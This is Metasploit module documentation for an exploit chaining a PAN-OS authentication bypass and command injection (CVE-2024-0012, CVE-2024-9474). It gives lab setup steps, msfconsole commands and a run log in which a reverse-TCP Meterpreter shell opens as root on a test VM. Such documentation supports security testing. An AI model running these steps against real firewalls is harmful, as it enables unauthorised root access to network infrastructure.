 ## Vulnerable Application
This module exploits an authentication bypass vulnerability (CVE-2024-0012) and a command injection
vulnerability (CVE-2024-9474) in the PAN-OS management web interface. An unauthenticated attacker can
execute arbitrary code with root privileges.

The following versions are affected:
  * PAN-OS 11.2 (up to and including 11.2.4-h1)
  * PAN-OS 11.1 (up to and including 11.1.5-h1)
  * PAN-OS 11.0 (up to and including 11.0.6-h1)
  * PAN-OS 10.2 (up to and including 10.2.12-h2)

## Testing
Install a new PAN-OS instance as a VM in VMWare, by downloading an OVA for a vulnerable version, for example
`PA-VM-ESX-11.1.4.ova`. Install this OVA in VMWare Workstation and boot the device. The first ethernet adapter
will be assigned an IP address via DHCP. This is the IP address of the management interface. You can complete setup
by visiting `https://MANAGEMENT_IP/` in your browser. You do not need to license the target VM in order to successfully
run the exploit against the target. The default user is `admin` with a password of `admin`, and you will be instructed
to change this upon logging in for the first time.

The exploit has been tested against PAN-OS `10.2.8` and `11.1.4`, with the
payloads `cmd/linux/http/x64/meterpreter_reverse_tcp`, `md/linux/http/x64/meterpreter/reverse_tcp`,
and `cmd/unix/reverse_bash`.

## Verification Steps

1. Start msfconsole
2. `use exploit/linux/http/panos_management_unauth_rce`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set PAYLOAD cmd/linux/http/x64/meterpreter_reverse_tcp`
5. `set LHOST eth0`
5. `set LPORT 4444`
6. `check`
7. `exploit`

## Options

### WRITABLE_DIR
The full path of a writable directory on the target. By default it will be `/var/tmp`. The exploit will write the
payload as a series if chunks to this location, before executing the payload. The written artifacts are then deleted.

## Scenarios

### Default

```
msf6 exploit(linux/http/panos_management_unauth_rce) > show options

Module options (exploit/linux/http/panos_management_unauth_rce):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        192.168.86.100   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT         443              yes       The target port (TCP)
   SSL           true             no        Negotiate SSL/TLS for outgoing connections
   VHOST                          no        HTTP server virtual host
   WRITABLE_DIR  /var/tmp         yes       The full path of a writable directory on the target.


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      pHLZiKRnmfR      no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /var/tmp         yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               192.168.86.42    yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Default



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/panos_management_unauth_rce) > check
[+] 192.168.86.100:443 - The target is vulnerable.
msf6 exploit(linux/http/panos_management_unauth_rce) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Uploading payload chunk 1 of 7...
[*] Uploading payload chunk 2 of 7...
[*] Uploading payload chunk 3 of 7...
[*] Uploading payload chunk 4 of 7...
[*] Uploading payload chunk 5 of 7...
[*] Uploading payload chunk 6 of 7...
[*] Uploading payload chunk 7 of 7...
[*] Amalgamating payload chunks...
[*] Executing payload...
[*] Sending stage (3045380 bytes) to 192.168.86.100
[*] Meterpreter session 1 opened (192.168.86.42:4444 -> 192.168.86.100:54266) at 2024-11-21 16:35:38 +0000

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.86.100
OS           : Red Hat  (Linux 4.18.0-240.1.1.28.pan.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
